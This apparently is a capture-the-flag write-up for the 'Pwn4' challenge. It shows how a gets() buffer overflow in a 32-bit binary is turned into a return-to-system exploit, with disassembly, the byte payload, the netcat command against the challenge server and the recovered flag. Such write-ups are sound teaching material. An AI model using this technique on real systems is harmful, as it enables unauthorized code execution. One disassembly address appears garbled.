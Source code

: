 # Pwn4 write-up

![](/assets/pwn4.png)

## Analysis

The binary reads an input into a **fixed size buffer** of size 12 bytes. This is done in the function `func1`

```nasm
.text:080484FD func1           proc near               ; CODE XREF: main+35p
.text:080484FD
.text:080484FD s               = byte ptr -0Ch
.text:080484FD
.text:080484FD                 push    ebp
.text:080484FE                 mov     ebp, esp
.text:08048500                 sub     esp, 18h
.text:08048503                 sub     esp, 0Ch
.text:08048506                 lea     eax, [ebp+s]
.text:408048509                 push    eax             ; s
.text:0804850A                 call    _gets
.text:0804850F                 add     esp, 10h
.text:08048512                 nop
.text:08048513                 leave
.text:08048514                 retn
.text:08048514 func1           endp
```

The stack layout looks like

```
-0000000C str             db 12 dup(?)
+00000000  s              db 4 dup(?)
+00000004  r              db 4 dup(?)
```

The return address can be overwritten by overflowing the buffer. This gives control over `EIP`.

The binary contains a decoy function `flag_func` that seems to print the flag.

```nasm
.text:080484CB                 public flag_func
.text:080484CB flag_func       proc near
.text:080484CB                 push    ebp
.text:080484CC                 mov     ebp, esp
.text:080484CE                 sub     esp, 8
.text:080484D1                 sub     esp, 0Ch
.text:080484D4                 push    offset command  ; "/bin/cat flag2.txt"
.text:080484D9                 call    _system
.text:080484DE                 add     esp, 10h
.text:080484E1                 nop
.text:080484E2                 leave
.text:080484E3                 retn
.text:080484E3 flag_func       endp
```

We can redirect execution to `flag_func` by crafting the input as follows:

* 12 bytes for filling the buffer
* 4 bytes for overwriting the saved value of `ebp` on the stack
* `\xCB\x84\x04\x08` \(the address of `flag_func` in little endian byte order\)

Testing with these values:

```bash
$ python -c "print 'A'*16+ '\xCB\x84\x04\x08'" > exploit  
$ nc web.ctf.tamu.edu 4324 < exploit 
I require an input: 
Did you really think it would be that easy?
```

We do not get the flag.

Searching for strings we get one which is not used anywhere.

```nasm
.data:0804A028                 public flag
.data:0804A028 flag            db '/bin/cat flag.txt',0
.data:0804A028 _data           ends
```

This suggests the flag must be in the file _flag.txt_ and not _flag2.txt_. Thus somehow we need to pass this string as argument to `system`  which is located at `08048390`.

```nasm
.plt:08048390 ; int system(const char *command)
.plt:08048390 _system         proc near               ; CODE XREF: flag_func+Ep
.plt:08048390                 jmp     ds:off_804A014
.plt:08048390 _system         endp
```

The return address from `func1` must be overwritten with this address. `system` takes a `char *` as an argument. This value must also be provided in the stack as well. Thus the stack must look like this:

```
<12 bytes buffer>
<overwritten ebp>
<return address from func1> ; address of system
<dummy return address>
<argument to system>
```

The `call` instruction transfers the execution to the target address. Before execution begins, the return address is pushed on the stack at the top. Hence the reason to provide a dummy return address to simulate the stack frame of `system`. 

The exploit code looks like:

```
'A'*16 + '\x90\x83\x04\x08' + 'BBBB' + '\x28\xa0\x04\x08'
```

`'A' * 16` -&gt; Fill buffer and overwrite `ebp`.  
`'\x90\x83\x04\x08'` -&gt; return address from `func1` \(`system`\)  
`'BBBB'` -&gt; Dummy return address from `system`.  
`'\x28\xa0\x04\x08'` -&gt; Address of string \(argument to `system`\)

## Exploitation

```bash
$ python -c "print 'A'*16 + '\x90\x83\x04\x08' + 'BBBB' + '\x28\xa0\x04\x08'" > exploit
 
$ nc web.ctf.tamu.edu 4324 < exploit 
I require an input:
gigem{R3TURN_0R13NT3D_PR0F1T}
```

**gigem{R3TURN\_0R13NT3D\_PR0F1T}**

